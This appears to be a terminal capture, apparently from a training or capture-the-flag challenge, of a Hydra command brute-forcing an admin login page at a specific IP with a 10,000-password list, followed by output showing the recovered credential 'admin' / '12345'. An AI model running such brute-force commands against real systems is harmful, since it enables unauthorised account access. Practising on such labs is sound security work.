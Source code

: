 hydra -l admin -P 10000.txt -s 80 -f 212.129.38.224 http-get /realiste/ch3/admin/index.php
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-19 12:11:48
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking http-get://212.129.38.224:80/realiste/ch3/admin/index.php
[80][http-get] host: 212.129.38.224   login: admin   password: 12345
[STATUS] attack finished for 212.129.38.224 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-19 12:11:48
